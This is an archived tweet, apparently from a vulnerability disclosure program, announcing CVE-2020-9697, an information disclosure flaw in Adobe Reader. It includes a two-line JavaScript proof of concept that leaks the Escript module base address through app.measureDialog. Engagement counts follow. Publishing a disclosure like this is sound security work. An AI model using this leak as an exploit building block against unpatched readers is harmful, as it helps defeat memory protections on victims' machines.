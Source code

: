 
# thezdi
**https://twitter.com/thezdi/status/1293568647043190784 _at 2020-08-12, 15:22:53_**
<blockquote>
CVE-2020-9697: Info disclosure in #Adobe Reader. 

PoC: 
var a = app.measureDialog(app);
console.println("Escript Base: " + (Math.abs(a[1]) - 0x0044b43).toString(16)) https://t.co/dpxYcvLnca
</blockquote>

<table><tr>
<td><img src="pictures/2c212a61c27495517c679194c838414f1295fde1e32703b6b38324cf2e25d80a.jpg" alt="2c212a61c27495517c679194c838414f1295fde1e32703b6b38324cf2e25d80a.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>224</code></td>
</tr></table>

---